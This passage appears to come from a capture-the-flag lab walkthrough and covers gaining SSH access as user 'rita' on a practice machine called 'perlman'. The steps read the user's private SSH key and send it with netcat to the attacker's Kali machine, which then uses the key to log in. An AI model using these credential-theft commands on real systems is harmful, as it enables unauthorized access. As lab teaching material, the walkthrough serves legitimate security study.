



4.5 Connect via SSH
1. Try to connect via SSH as “rita” user from your Kali Machine.
$ ssh rita@192.168.12.68
Output:

You can only access using a private key.
2. Show <Your public key>.
rita@perlman:~$ cd .ssh
rita@perlman:~$ cat id_rsa
Output:

4. Copy the “id_rsa” file to the Kali Machine. On the victim's machine run the following.
rita@perlman:~/.ssh$ nc -nlvp 5555 < id_rsa
On the Kali Linux machine run the following. You're changing the “id_rsa” file to “rita”.
$ nc perlman.hmv 5555 > rita
^C
5. Change the “rita” file permissions.
$ chmod 600 rita
6. From your Kali Machine connect via SSH as “rita”.
$ ssh -i rita rita@perlman.hmv
Output:
